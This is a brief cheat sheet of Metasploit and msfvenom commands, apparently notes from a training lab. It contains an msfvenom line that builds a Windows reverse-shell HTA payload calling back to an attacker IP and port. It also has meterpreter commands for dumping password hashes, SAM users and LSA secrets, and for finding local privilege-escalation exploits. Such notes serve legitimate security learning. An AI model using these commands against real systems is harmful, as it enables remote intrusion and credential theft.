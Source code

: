 # Metasploit Commands

```
set PAYLOAD payload/cmd/unix/reverse
```
# MSFVenom Commands

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
dump hashes in a meterpreter session
```
hashdump
```
dump sam users in a meterpreter session
```
lsa_dump_sam
```
dump secrets in a meterpreter session.
```
lsa_dump_secrets
```
searches for the local exploit suggestor
```
search local_exploit_suggester
```
suggests exploits to use against a meterpreter session.
```
use multi/recon/local_exploit_suggester
```
